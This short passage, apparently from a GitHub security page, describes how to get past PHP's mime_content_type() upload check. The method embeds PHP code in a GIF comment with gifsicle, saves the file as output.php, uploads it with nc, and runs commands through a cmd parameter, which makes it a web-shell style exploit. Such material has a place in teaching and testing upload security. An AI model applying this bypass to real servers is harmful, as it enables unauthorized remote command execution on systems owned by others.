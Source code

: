 ### Get Around of mime_content_type or finfo
In this example we get arround the php's *mime_content_type()* function.

\_ The server accept **GIF** images and use only the *mime_content_type()* function for verify that the image is valid. If we put **PHP** code in comment of the GIF, like php is a template language with a php extension the GIF will be executed.

\_ For insert comment in GIF file we use the following command :

``gifsicle < spmUM.gif -- comment "`cat exploit.php`" > output.php``

 Now we can upload our file: `nc upload 80 < raw`. After that we can execute the script from a navigator (e.g : http://hostname/upload/uploads/?cmd=touch+newfile)
